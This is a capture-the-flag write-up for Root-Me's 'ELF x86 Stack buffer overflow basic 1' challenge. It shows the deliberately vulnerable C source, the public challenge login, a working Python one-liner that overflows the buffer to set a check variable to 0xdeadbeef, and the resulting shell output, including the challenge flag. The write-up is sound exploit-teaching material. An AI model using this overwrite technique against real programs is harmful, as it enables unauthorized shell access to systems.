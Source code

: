 # ELF x86 - Stack buffer overflow basic 1
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1
```
Environment configuration :

PIE 	        Position Independent Executable 	 No 
RelRO 	        Read Only relocations 	                 No 
NX 	        Non-Executable Stack 	                 No 
Heap exec 	Non-Executable Heap 	                 No 
ASLR 	        Address Space Layout Randomization 	 No 
SF 	        Source Fortification 	                 No 
SRC 	        Source code access 	                 Yes 

Challenge connection informations :

Host	challenge02.root-me.org
Protocol	SSH
Port	2222
SSH access 	ssh -p 2222 app-systeme-ch13@challenge02.root-me.org     WebSSH
Username	app-systeme-ch13
Password	app-systeme-ch13
```
The source code is:
```c
#include <stdlib.h>
#include <stdio.h>

/*
gcc -m32 -o ch13 ch13.c -fno-stack-protector
*/


int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

As you may notice, there is no boundary check. In addition, every time the execuable runs, it will print the _check_'s value - which should be 0xdeadbeef.<br>
There's not a lot to analyze. A quick way would be just to try, until _check_ gets overwritten, and then replace its value.
After few tries:
```sh
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
whoami
app-systeme-ch13-cracked
cat .passwd
1w4ntm0r3pr0np1s
```
